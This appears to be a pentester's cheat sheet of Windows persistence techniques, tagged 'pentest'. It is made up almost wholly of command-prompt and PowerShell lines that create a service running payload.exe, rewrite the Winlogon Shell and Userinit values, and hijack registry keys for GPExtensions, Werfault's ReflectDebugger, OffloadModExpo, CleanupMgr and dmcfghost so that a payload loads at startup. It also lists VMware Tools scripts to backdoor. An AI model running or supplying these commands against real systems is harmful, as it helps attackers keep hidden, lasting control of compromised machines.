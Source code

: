 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

#### SC service creation
```command prompt - windows
sc create newservice type= own type= interact binPath=
“C:\windows\system32\cmd.exe /c payload.exe" & sc start newservice
```

#### Winlogon Helper DLL Shell
```command prompt - windows
reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon" /v Shell /d "explorer.exe, payload.exe" /f
```

```powershell - windows
Set-ItemProperty "HKLM:\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\" "Shell" "explorer.exe, payload.exe" -Force
```

#### Winlogon Helper DLL UserInit
```command prompt - windows
reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon" /v Userinit /d "Userinit.exe, payload.exe" /f
```

```powershell - windows
Set-ItemProperty "HKLM:\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\" "Userinit" "Userinit.exe, payload.exe" -Force
```

#### Winlogon GP Extensions
```command prompt - windows
HKLM\SOFTWARE\Microsoft\Windows
NT\CurrentVersion\Winlogon\GPExtensions\$GUID\DllName=payload.dll
```

#### OMA Client Provisioning dmcfghost.exe
```command prompt - windows
HKLM\SOFTWARE\Microsoft\PushRouter\Test\TestDllPath2=payload.dll
```

#### Werfault.exe Reflective Debugger
```command prompt - windows
HKLM\Software\Microsoft\Windows\Windows Error Reporting\Hangs\ReflectDebugger=<path\to\payload.exe>
```

```command prompt - windows
werfault.exe -pr 1
```

#### OffloadModExpo Function
```command prompt - windows
HKLM\Software\Microsoft\Cryptography\Offload\ExpoOffload=payload.dll
```

#### DiskCleanup CleanupMgr
```command prompt - windows
HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\MyComputer\
cleanuppath = %SystemRoot%\System32\payload.exe
```

#### VMware Tools BAT File Persistence
Add command into one or more of the following:

C:\Program Files\VMware\VMware Tools\poweroff-vm-default.bat
C:\Program Files\VMware\VMware Tools\poweron-vm-default.bat
C:\Program Files\VMware\VMware Tools\resume-vm-default.bat
C:\Program Files\VMware\VMware Tools\suspend-vm-default.bat














